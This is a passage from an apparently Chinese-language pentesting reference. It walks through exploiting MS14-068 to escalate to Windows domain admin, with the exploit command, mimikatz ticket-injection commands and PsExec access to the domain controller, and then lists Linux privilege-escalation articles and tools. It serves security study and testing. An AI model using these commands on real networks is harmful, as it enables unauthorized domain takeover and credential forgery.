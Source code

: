 - 文章
    - [MS14-068域权限提升漏洞总结](http://www.polaris-lab.com/index.php/archives/205/)

- POC | Payload | exp
    - [windows-kernel-exploits/MS14-068/](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)
    - [abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe)

        登录普通域用户 whoami/user 获取 sid

        退出域用户，登录本地用户
        ```
        ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码
        MS14-068.exe -u test@test.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.1.1 -p Admin123
        ```
        接下来将导出生成一张 kerberos 票据，配合 mimikatz 的 ptt 功能，将票据导入到内存中

        使用 mimikatz 将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器
        ```bash
        kerberos::purge         // 清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
        kerberos::list          // 查看当前机器凭证
        kerberos::ptc 票据文件   // 将票据注入到内存中

        可以使用 net use \\域控名\C$ 尝试访问域控

        也能执行 psexec
        PsExec64.exe -accepteula \\域控名 -s cmd /c "whoami /all"
        ```

---

# Linux

**文章教程**
- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Local Linux Enumeration & Privilege Escalation Cheatsheet](https://www.rebootuser.com/?p=1623)
- [Abusing SUDO (Linux Privilege Escalation)](https://touhidshaikh.com/blog/?p=790)
- [谈一谈Linux与suid提权](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)

**相关资源**
- [xairy/linux-kernel-exploitation](https://github.com/xairy/linux-kernel-exploitation)
- [xairy/kernel-exploits](https://github.com/xairy/kernel-exploits)
- [SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

**提权辅助工具**
- [GTFOBins](https://gtfobins.github.io/)
- [mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
- [rebootuser/LinEnum](https://github.com/rebootuser/LinEnum) - 辅助信息收集脚本
- [DominicBreuker/pspy](https://github.com/DominicBreuker/pspy) - 在没有 root 权限的情况下监视 linux 进程
- [TH3xACE/SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) - 一个用来识别和利用 sudo 规则的错误配置和漏洞的工具

---